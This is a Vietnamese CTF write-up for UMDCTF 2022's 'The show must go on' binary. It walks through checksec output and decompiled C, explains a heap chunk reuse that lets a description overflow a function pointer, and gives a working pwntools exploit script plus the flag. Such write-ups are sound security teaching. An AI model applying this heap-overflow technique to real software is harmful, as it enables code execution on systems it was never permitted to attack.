

# The show must go on UMDCTF 2022 

## Description

Đầu tiên ta kiểm tra qua thông tin của file

```Terminal
➜  checksec theshow
[*] '/home/hibana/Downloads/theshow'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
➜  file theshow
theshow: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=9892240bcbf253bbd60b8484cf029b3fe7864338, not stripped
```

Sau đó chạy thử file

```Terminal
➜  ./theshow
Welcome to the comedy club!
We only have the best comedians here!Please help us set up for your act
What is the name of your act?
ba
Your act code is: Main_Act_Is_The_Best
How long do you want the show description to be?
12
Describe the show for us:
idk
What would you like to do?
+-------------+
|   Actions   |
|-------------|
| Perform Act |
| Switch Act  |
| End Show    |
+-------------|
Action:
```

Đầu tiên sẽ nhập một vài thông tin sau đó hiện ra 1 menu với 3 options: `Perform Act`, `Switch Act`, `End Show`
Với option 1 `Perform Act` thì sẽ tell joke sau dó kết thúc chương trình. Option2 `Switch Act` thì sau khi nhập một vài thông tin thì mình luôn bị trả về lỗi segmentation fault. Option3 thì kết thúc chương trình. Bây giờ cùng ngó qua source code để xem ta có thể khai thác được gì. Mình thấy có 1 số hàm như sau:

 

Ta thấy có hàm `win()` và `tellAjoke()` mình đoán để có flag thì cần phải làm `Perform Act` chạy hàm `win()` thay vì `tellAjoke()`
cùng xem chi tiết các hàm khác nhé:

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rdx
  __int64 v4; // rdx
  int result; // eax

  setbuf(stdout, 0LL, envp);
  setbuf(stdin, 0LL, v3);
  setbuf(stderr, 0LL, v4);
  setup();
  result = whatToDo();
  if ( result )
    return puts("The show is over, goodbye!");
  return result;
}
```

```C
__int64 setup()
{
  __int64 v0; // rax
  __int64 v1; // rax
  __int64 v2; // rax
  int v3; // r8d
  int v4; // r9d
  int v5; // edx
  int v6; // ecx
  int v7; // r8d
  int v8; // r9d
  int v9; // edx
  int v10; // ecx
  int v11; // r8d
  int v12; // r9d
  int v13; // edx
  int v14; // ecx
  int v15; // r8d
  int v16; // r9d
  int v17; // edx
  int v18; // ecx
  int v19; // r8d
  int v20; // r9d
  int v22; // [rsp+4h] [rbp-3Ch] BYREF
  __int64 v23; // [rsp+8h] [rbp-38h]
  char v24[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v25; // [rsp+38h] [rbp-8h]

  v25 = __readfsqword(0x28u);
  v22 = 0;
  message1 = malloc_set(80LL);
  message2 = malloc_set(96LL);
  message3 = malloc_set(128LL);
  v0 = message1;
  *(_QWORD *)message1 = 0x20656D6F636C6557LL;
  *(_QWORD *)(v0 + 8) = 0x6320656874206F74LL;
  *(_QWORD *)(v0 + 16) = 0x6C63207964656D6FLL;
  *(_DWORD *)(v0 + 24) = 169960053;
  v1 = message2;
  *(_QWORD *)message2 = 0x20796C6E6F206557LL;
  qmemcpy((void *)(v1 + 8), "have the best comedians here!", 29);
  v2 = message3;
  *(_QWORD *)message3 = 0x6820657361656C50LL;
  strcpy((char *)(v2 + 8), "elp us set up for your act\n");
  printf((unsigned int)"%s", message1, 1965061221, 1870209138, v3, v4);
  printf((unsigned int)"%s", message2, v5, v6, v7, v8);
  printf((unsigned int)"%s", message3, v9, v10, v11, v12);
  puts("What is the name of your act?");
  _isoc99_scanf((unsigned int)"%s", (unsigned int)v24, v13, v14, v15, v16);
  mainAct = malloc_set(104LL);
  j_strncpy_ifunc(mainAct, v24, 32LL);
  v23 = fcrypt("Main_Act_Is_The_Best", salt);
  j_strncpy_ifunc(mainAct + 32, v23, 64LL);
  puts("Your act code is: Main_Act_Is_The_Best");
  *(_QWORD *)(mainAct + 96) = tellAJoke;
  currentAct = mainAct;
  free(message1);
  free(message3);
  puts("How long do you want the show description to be?");
  _isoc99_scanf((unsigned int)"%d", (unsigned int)&v22, v17, v18, v19, v20);
  showDescription = malloc_set(v22 + 8);
  puts("Describe the show for us:");
  getchar();
  fgets(showDescription, 500LL, stdin);
  actList = mainAct;
  return 0LL;
}
```

```C
__int64 __fastcall whatToDo(__int64 a1, int a2)
{
  int v2; // edx
  int v3; // ecx
  int v4; // r8d
  int v5; // r9d
  int v6; // edx
  int v7; // ecx
  int v8; // r8d
  int v9; // r9d
  int v11; // [rsp+0h] [rbp-10h] BYREF
  unsigned int v12; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v13; // [rsp+8h] [rbp-8h]

  v13 = __readfsqword(0x28u);
  puts("What would you like to do?");
  v11 = 0;
  v12 = 0;
  puts("+-------------+");
  puts("|   Actions   |");
  puts("|-------------|");
  puts("| Perform Act |");
  puts("| Switch Act  |");
  puts("| End Show    |");
  puts("+-------------|");
  printf((unsigned int)"Action: ", a2, v2, v3, v4, v5);
  _isoc99_scanf((unsigned int)"%d", (unsigned int)&v11, v6, v7, v8, v9);
  switch ( v11 )
  {
    case 2:
      switchAct();
      puts("I think the current act switched switched. It might appear when we start up again...");
      break;
    case 3:
      return 1;
    case 1:
      (*(void (**)(void))(currentAct + 96))();
      break;
  }
  return v12;
}
```

OKE. Code khá là dài, mấy hàm ko quan trọng mình ko cho vào đây. Sau một hồi lâu ngồi đọc code, mình phát hiện chương trình `free(message3)` ngay sau đó `malloc_set(v22 + 8)` với v22 được người dùng nhập vào. Vì cơ chế free nên nếu ta nhập vào sao cho v22+8 = 128(size của mssage3) thì showDescription sẽ được trả về đúng địa chỉ của message3. Message3 nằm ngay trước `mainActor`. Thông qua việc gọi hàm `fgets(showDescription, 500LL, stdin);`, ta ghì đè từ showDescription đến `mainActor+96` ghì đè địa chỉ của hàm win vào. Khi đó, người dùng chọn `Perform Act` thì hàm `(*(void (**)(void))(currentAct + 96))()` sẽ được gọi. Ta sẽ có flag.

## Exploit code

```python
#!python3
from pwn import *
#HOST 0.cloud.chals.io PORT 30138
p = remote('0.cloud.chals.io', 30138) #connect to server
print(p.recvuntil(b'act?')) # What is the name of your act?
p.sendline(b'quangba')
print(p.recvuntil(b'be?')) #How long do you want the show description to be? 120 + 8 = 128 = message3 size
p.sendline(b'120')
print(p.recvuntil(b'us:')) #Describe the show for us:
payload = b'a'*(128+16+96) #128 kí tự cho showDescription, 16 kí tự cho metadata của chunk mainActor, 96 kí tự offset
payload += p64(0x400BED)    #địa chỉ hàm win()
p.sendline(payload)
p.interactive()
```

## FLAG: UMDCTF{b1ns_cAN_B3_5up3r_f4st}
